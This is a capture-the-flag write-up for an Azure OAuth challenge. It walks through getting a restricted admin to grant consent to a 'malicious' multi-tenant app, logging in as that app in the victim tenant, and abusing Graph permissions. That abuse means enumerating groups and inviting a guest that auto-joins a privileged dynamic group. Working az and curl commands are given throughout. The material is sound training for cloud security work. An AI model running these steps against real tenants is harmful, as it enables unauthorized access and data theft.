# Wiz Cloud Security Championship

Azure and OAuth-focused challenge:

[Useful links to OAuth](https://darutk.medium.com/diagrams-and-movies-of-all-the-oauth-2-0-flows-194f3c3ade85)

 As an APT group targeting Azure, you've discovered a web app that creates admin users, but they are heavily restricted. To gain initial access, you've created a malicious OAuth app in your tenant and now seek to deploy it into the victim's tenant. Can you bypass the restrictions and capture the flag?

The shell environment has been preloaded with your malicious OAuth app credentials and the target web app endpoint as environment variables. Use `env | grep AZURE` or `echo $WEB_APP_ENDPOINT` to view them.

Good luck! 

` echo $WEB_APP_ENDPOINT
https://app-admin-dpbug0fqb4gea3a6.z01.azurefd.net/`

**Explanations:**
- **AZURE_TENANT_ID**: The unique identifier for the Azure Active Directory tenant. It specifies which Azure directory your app (malicious OAuth) is associated with.
- **AZURE_CLIENT_ID**: The application (client) ID registered in Azure AD. Used to identify your OAuth app.
- **AZURE_CLIENT_SECRET**: The secret key for your OAuth app, used for authentication when requesting tokens.
- **WEB_APP_ENDPOINT**: The URL of the target web application you are attacking or testing.

This is our front door: `https://app-admin-dpbug0fqb4gea3a6.z01.azurefd.net`

Create user and check network action:



User created as Global Admin:
`sleheehunter665@azurectfchallengegame.com`


### Bypassing Restrictions with Malicious OAuth Credentials

At this stage, it's clear that the web application allows us to create admin accounts, but these accounts are subject to strict limitations. Our objective is to use the credentials from our malicious OAuth application to circumvent these restrictions and ultimately obtain the flag.
 

#### Identifying the Victim Tenant

Once an admin account is created through the web app (despite its restrictions), we can observe that the domain linked to the new identity is:

`azurectfchallengegame.com`

This domain provides a clue about the victim tenant we are targeting for further exploitation.

We need to find the tenant ID in order to build the admin consent URL for the malicious app:

```bash
curl -s https://login.microsoftonline.com/azurectfchallengegame.com/v2.0/.well-known/openid-configuration \
  | jq -r .issuer
```

Here we have the tenant ID: `REDACTED_TENANT_ID`

```bash
export VICTIM_TENANT_ID=REDACTED_TENANT_ID
```

Alternatively, we could have used [whatismytenantid.com](https://whatismytenantid.com).




### Attempting Admin Consent

Although the newly created admin account is restricted and direct access to the Azure portal is blocked, we can try a different strategy: using this account to grant admin consent to our malicious multi-tenant OAuth application.

In Azure AD (Entra ID), multi-tenant applications can be authorized in any tenant. Once admin consent is granted in the target tenant, the app is available there as an enterprise application.

**Approach:**

- Use the victim tenant’s ID: `REDACTED_TENANT_ID`
- Use the client ID of our malicious OAuth app: `REDACTED_CLIENT_ID`
- Construct the admin consent URL in the following format:

```
https://login.microsoftonline.com/REDACTED_TENANT_ID/adminconsent?client_id=REDACTED_CLIENT_ID
```

By visiting this URL while authenticated as an admin in the victim tenant, you can attempt to grant consent to your malicious application, potentially bypassing the imposed restrictions.

Navigating to this crafted URL in the browser and logging in with the restricted admin account initiates the Admin Consent flow.

The process prompted us to set up Multi-Factor Authentication (MFA) for the account. After successfully configuring MFA, we were redirected to the Admin Consent prompt, allowing us to proceed with granting permissions to our malicious application.











Giving consent redirects us to the [Wiz blog](https://www.wiz.io/blog/midnight-blizzard-microsoft-breach-analysis-and-best-practices?admin_consent=True&tenant=REDACTED_TENANT_ID#) of `Midnight Blizzard ` attack on Microsoft corp environment. 

This redirect serves as a clear indicator in the context of the challenge: it confirms that our malicious multi-tenant application has been successfully granted admin consent within the victim tenant. With this confirmation, the app is now authorized and can operate with the permissions assigned in the target environment.


### Real-World Implications & Next Steps

In a real-world environment, following this process would result in your malicious application appearing as an Enterprise Application within the victim tenant. This opens the door to obtaining tokens or escalating privileges, depending on the permissions granted.

Up to this point, the challenge demonstrates that leveraging the restricted admin account to bypass initial access barriers is effective. 


---

## Using Environment Variables for Simplified Login

Now, you can further simplify the login process by using the environment variables already set in your shell. This makes your workflow more flexible and less error-prone:

```bash
az login --service-principal \
	-u $AZURE_CLIENT_ID \
	-p $AZURE_CLIENT_SECRET \
	--tenant $VICTIM_TENANT_ID \
	--allow-no-subscriptions
```

**Explanation:**

-  `service-principal`  tells Azure CLI that we are authenticating with an app registration / service principal instead of a user.
- `-u $AZURE_CLIENT_ID`: Uses the client ID from your environment variable the malicious OAuth.
- `-p $AZURE_CLIENT_SECRET`: Uses the client secret from your environment variable.
- `--tenant $VICTIM_TENANT_ID`: Uses the victim tenant ID from your environment variable.
- `--allow-no-subscriptions`: Allows login even if the service principal has no active Azure subscriptions (useful in CTFs or restricted environments).


This tells Azure: "Authenticate me as this app (service principal) in the victim tenant."

Once this succeeds, your CLI session now has a valid identity inside the victim tenant, not your attacker tenant.

But this login only sets up your session; it doesn't automatically give you a usable ticket for the Microsoft Graph API.


```bash
az account get-access-token \
  --resource https://graph.microsoft.com \
  --query accessToken -o tsv \
  | jq -R 'split(".")[1] | @base64d | fromjson'
```

```bash
ACCESS_TOKEN=$(az account get-access-token \
  --resource https://graph.microsoft.com \
  --query accessToken -o tsv)
```

The restricted admin account couldn’t do much directly (no portal access, limited actions).

But when it consented to our malicious app, that app got powerful Graph API permissions.

With the token, we can act as that app inside the victim tenant, bypassing the restrictions placed on normal users.

So the token is the bridge:

Without it → we're just outsiders.

With it → we become a trusted app inside the victim tenant, able to enumerate groups, invite users, and eventually uncover the flag.

We got the Graph access token decoded. Let’s break down the important parts:


```json

[
  "Group.Read.All",
  "User.Invite.All"
]
```

This means:

- You can read all groups in the tenant.

- You can invite external users (B2B guests).

Enumerate groups:

```bash
az rest --method get \
  --url "https://graph.microsoft.com/v1.0/groups" \
  --query "value[].{id:id,displayName:displayName,description:description}" -o table
```

| DisplayName                   | Description                                                                 |
| ----------------------------- | --------------------------------------------------------------------------- |
| SecGrp-Network-Admins         | Security group for network administrators managing VNets and firewalls     |
| SecGrp-Finance-Dept           | Security group for finance department with access to billing data          |
| SecGrp-HR-Dept                | Security group for HR department with access to employee data             |
| SecGrp-Privileged-Admins      | Security group for privileged administrators with global access           |
| SecGrp-Developers             | Security group for application developers with access to DevOps tools     |
| DynGrp-Guests-Only            | Users assigned access to flag                                              |
| SecGrp-ReadOnly-Auditors      | Security group for auditors with read-only permissions to resources       |
| SecGrp-Data-Scientists        | Security group for data scientists with access to ML and analytics resources |

```bash
curl -s -H "Authorization: Bearer $ACCESS_TOKEN" \
  https://graph.microsoft.com/v1.0/groups \
  | jq .
```

```bash
curl -s -H "Authorization: Bearer $ACCESS_TOKEN" \
  https://graph.microsoft.com/v1.0/groups \
  | jq '.value[] | select(.displayName=="Users assigned access to flag")'
```



### Example user attribute filters

| Expression                                                                 | Meaning / Use case                                           |
| ------------------------------------------------------------------------- | ------------------------------------------------------------ |
| (user.department -eq "Finance")                                           | Users in the Finance department                              |
| (user.jobTitle -eq "Manager")                                             | Users whose job title is Manager                             |
| (user.displayName -startsWith "CTF") and (user.userType -eq "Guest")     | Guest accounts with display names starting with "CTF"       |
| (user.city -eq "Seattle")                                                  | Users located in Seattle                                     |

### Next logical steps

Since your malicious app has the role `User.Invite.All`, you can invite your own guest account into the tenant with properties that satisfy one of the rules. The easiest is:

- Create a guest user with a `displayName` starting with `CTF` (for example, `CTF-GuestUser`).
- Ensure `userType=Guest` (this is the default for invited users).

This will cause the new guest account to be auto-placed into the "Users assigned access to flag" group, giving you the intended access path for the challenge.

!!!note
    Every request to the Microsoft Graph API must include an OAuth 2.0 access token in the Authorization header

```bash

ACCESS_TOKEN=$(az account get-access-token \
  --resource https://graph.microsoft.com \
  --query accessToken -o tsv)

curl -s -X POST https://graph.microsoft.com/v1.0/invitations \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
        "invitedUserEmailAddress": "ctfuser@example.com",
        "inviteRedirectUrl": "https://portal.azure.com",
        "invitedUserDisplayName": "CTF-GuestFlag",
        "sendInvitationMessage": false
      }' | jq .
```
Hmmmm this did not go to well:


Try with a  disposable one and change the send invite to true
!
```bash
ACCESS_TOKEN=$(az account get-access-token \
  --resource https://graph.microsoft.com \
  --query accessToken -o tsv)

curl -s -X POST https://graph.microsoft.com/v1.0/invitations \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
        "invitedUserEmailAddress": "ctfhunt@sharklasers.com",
        "inviteRedirectUrl": "https://portal.azure.com",
        "invitedUserDisplayName": "CTF-Hunter",
        "sendInvitationMessage": true
      }' | jq .

```







Check What app can the guest user access: `https://myapps.microsoft.com?tenantid=[VICTIM_TENANT] `






This confirms that `public access is disabled`, so we must use Azure authentication to retrieve the blob.


Log out and log back in  with the guest account.

```bash
az logout

az login --tenant $VICTIM_TENANT_ID --use-device-code

az account show

```




Downloading the Blob via Azure CLI

Using the guest account session, download the flag:

```bash

az storage blob download \
  --account-name azurechallengectfflag \
  --container-name grab-the-flag \
  --name ctf_flag.txt \
  --file ctf_flag.txt \
  --auth-mode login

```
Reveal the flag: `cat ctf_flag.txt`


